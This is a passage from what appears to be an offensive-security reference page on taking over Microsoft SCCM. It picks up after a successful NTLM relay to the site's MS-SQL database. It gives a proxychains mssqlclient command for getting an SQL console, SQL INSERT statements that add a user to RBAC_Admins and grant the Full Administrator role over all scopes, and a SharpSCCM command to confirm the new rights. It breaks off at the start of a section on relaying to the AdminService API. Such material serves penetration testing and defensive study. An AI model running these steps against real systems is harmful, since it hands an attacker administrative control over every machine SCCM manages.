 The rest of this page is focusing on relaying the authentication on the MS-SQL service.

4. Obtain an SQL console

If the NTLM relay attack is a success and was targeting the MS-SQL service with SOCKS support, an SQL console could be obtained on the SCCM database through the opened socks proxy. From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) (Python) can be used for that purpose.

```bash
proxychains mssqlclient.py "DOMAIN/SCCM-Server$"@"siteDatabase.domain.local" -windows-auth
```

Once the console is obtained, the attack can proceed to granting the user full privileges by running the following commands in the SQL console.

<pre class="language-sql"><code class="lang-sql">--Switch to site database
<strong>use CM_&#x3C;site_code>
</strong>
--Add the SID, the name of the current user, and the site code to the RBAC_Admins table
<strong>INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (&#x3C;SID_in_hex_format>,'DOMAIN\user',0,0,'','','','','&#x3C;site_code>');
</strong>
--Retrieve the AdminID of the added user
<strong>SELECT AdminID,LogonName FROM RBAC_Admins;
</strong>
--Add records to the RBAC_ExtendedPermissions table granting the AdminID the Full Administrator (SMS0001R) RoleID for the “All Objects” scope (SMS00ALL), 
--the “All Systems” scope (SMS00001), 
--and the “All Users and User Groups” scope (SMS00004)
<strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00ALL','29');
</strong><strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00001','1');
</strong><strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00004','1');
</strong></code></pre>

It is then possible to verify the new privileges on SCCM.

<pre class="language-powershell"><code class="lang-powershell"># this should be run on the windows SCCM client as the user that was just given full administrative role to 
<strong>.\SharpSCCM.exe get site-push-settings -mp "SCCM-Server" -sc "&#x3C;site_code>"
</strong></code></pre>

Post exploitation via SCCM can now be performed on the network.

#### Relay to the HTTP API AdminService

{% hint style="warning" %}
Some requirements are needed to perform the attack:

* The HTTP API for the **AdminService** service is reachable on the SMS Provider server
* knowing the NetBIOS name, FQDN, or IP address of a site management point is required
* knowing the NetBIOS name, FQDN, or IP address of the site SMS provider server is required
{% endhint %}
